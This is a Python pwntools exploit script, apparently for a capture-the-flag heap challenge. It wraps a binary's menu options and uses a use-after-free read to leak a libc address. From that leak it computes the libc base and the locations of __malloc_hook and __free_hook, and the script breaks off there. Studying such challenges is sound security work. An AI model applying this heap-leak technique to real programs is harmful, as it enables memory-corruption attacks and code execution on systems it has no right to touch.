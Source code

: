 def malloc(size, data):
    global index
    r.sendline("0")
    r.sendline(f"{size}")
    r.sendline(data)
    index += 1
    return index - 1
    print("index, ",index-1)
#remove the message
def free(index):
    r.sendline("1")
    r.sendline(f"{index}")
    #r.recvuntil("choice :")
#show the message
def show(index):
    r.sendline("2")
    sleep(0.2)
    r.sendline(f"{index}")
    resp = r.recv(0x58)
    #r.recvuntil("choice :")
    return resp
#3 change the timestamp
def change(index):
    r.sendline("3")
    r.sendline(f"{index}")

r = start()
#========= exploit here ===================
#sleeps for the buffering of the binary
#===== LEAK ==========
leak = malloc(0x200, "A" *8)
sleep(0.3)
guard = malloc(0x18, "YYYYYYYY")
r.timeout = 0.1
show(leak) #ctipe first
sleep(0.3)
free(leak) #free chunk
sleep(0.3)
show(leak) #show leak
#it seems im buffering the output so some timeouts
#maybe there's a better way to do it
r.recvuntil("Message : ")
r.timeout = 0.1
sleep(0.3)
r.recvuntil("Message : ")
r.timeout = 0.1
l = u64(r.recvline().strip().ljust(8,b'\x00'))
libc.address = l - 0x399b78
#no mitigations for fake chunk sizes
log.info(f"libc leak {hex(l)}")
log.info(f"libc base {hex(libc.address)}")
log.info(f"malloc hook {hex(libc.sym.__malloc_hook)}")
log.info(f"free hook {hex(libc.sym.__free_hook)}")
